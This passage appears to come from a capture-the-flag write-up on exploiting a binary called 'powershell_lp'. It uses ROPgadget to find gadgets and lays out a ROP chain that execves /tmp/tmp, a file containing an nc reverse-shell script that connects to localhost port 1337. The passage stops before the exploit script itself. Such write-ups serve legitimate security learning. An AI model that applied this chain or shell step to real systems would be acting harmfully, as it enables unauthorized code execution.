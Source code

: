 I used a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find gadgets in the binary, then hand-rolled a solution based on the gadgets that would `execve()` the contents of the file `/tmp/tmp`. Inside `/tmp/tmp` (a file writable by us on the LP) is a reverse shell that connects to a listener on localhost port 1337:

```bash
#!/bin/bash

nc localhost 1337
```

We need four gadgets for this solution: `pop rdi`, `pop rsi`, `pop rdx`, and `pop rax`. There are much better ways to do this, but this workflow got the job done for me:

```bash
$ ROPgadget --binary powershell_lp | grep "pop rdx ; ret"
```

```
...
0x000000000001cca2 : pop rdx ; ret
...
```

In our exploit script, after the canary has been brute-forced and the base address has leaked, we calculate the relocated address of each gadget and place them on the stack along with important addresses that hold strings and syscalls.

The code that makes up our rop chain looks something like this:

```
; buf = "/tmp"
; sprintf(buf, tmp_string, 4)
pop rdi     ; stack contains memory address of buffer that will store string "/tmp/tmp"
pop rsi     ; stack contains memoery address of "/tmp" string
pop rdx     ; stack contains constant 4
call sprintf; write string

; buf += "/tmp"
; sprintf(buf + 4, tmp_string, 4)
pop rdi
pop rsi
pop rdx
call sprintf

; execve(buf)
; syscall(buf, 0, 0, 0x3b)
pop rdi     ; buf address
pop rsi     ; constant 0
pop rdx     ; constant 0
pop rax     ; constant 0x3b (execve)

jmp syscall ; jump to syscall execution with these args
```

In our script this translates to:
